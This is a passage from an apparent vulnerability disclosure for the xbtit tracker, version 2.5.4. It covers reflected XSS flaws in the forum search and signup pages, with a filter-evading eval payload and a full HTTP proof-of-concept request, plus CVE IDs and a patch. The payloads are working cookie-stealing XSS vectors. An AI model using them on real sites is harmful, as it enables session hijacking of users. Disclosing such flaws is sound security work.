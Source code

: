 ```javascript
eval(/a~lert(do~cu~me~nt~.c~oo~k~ie)/.toString().replace(/~/g, '').slice(1,-1))
```

### CVE-ID
CVE-2018-15676

<hr>

## Reflected XSS in Forum Search
The `keywords` parameter in the search function available at `/index.php?page=forums&action=search` is vulnerable to reflected cross-site scripting. By packaging the payload as outlined in the [Anti-XSS Mechanism Bypass](#anti-xss-mechanism-bypass) section, it is possible to execute arbitrary JavaScript in the web browser of an authenticated user and subsequently steal their cookies (including the session cookie).

### Proof of Concept
```http
GET /index.php?page=forum&action=search&keywords=%22%3E%3Cimg%20src=x%20onerror=%22eval(/a~lert(do~cu~me~nt~.c~oo~k~ie)/.toString().replace(/~/g,%20%27%27).slice(1,-1))%22%3E%3C HTTP/1.1
Host: xbtit.vm
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:61.0) Gecko/20100101 Firefox/61.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: SMFCookie693=a%3A4%3A%7Bi%3A0%3Bi%3A1%3Bi%3A1%3Bs%3A40%3A%221250f6c7216825b4a231dc697393fc56e8921810%22%3Bi%3A2%3Bi%3A1723852786%3Bi%3A3%3Bi%3A0%3B%7D; uid=2; pass=b094c51fb1076fc241a300ba39c3de9e; xbtit=oghknpvtihirf66f94dqa8ohvf
Connection: close
Upgrade-Insecure-Requests: 1

```

### CVE-ID
CVE-2018-15679

### Solution
Update to the version that supersedes 2.5.4 or apply [This Patch](/assets/code/xbtit-multiple-vulnerabilities/xbtit.patch)

<hr>

## Reflected XSS in User Signup
The `act` parameter in the signup page available at `/index.php?page=signup` is vulnerable to reflected cross-site scripting. By packaging the payload as outlined in the [Anti-XSS Mechanism Bypass](#anti-xss-mechanism-bypass) section, it is possible to execute arbitrary JavaScript in the web browser of an authenticated user and subsequently steal their cookies (including the session cookie).

It should be noted, although this vulnerability is found in the signup page, the attack is still successful against an authenticated user.
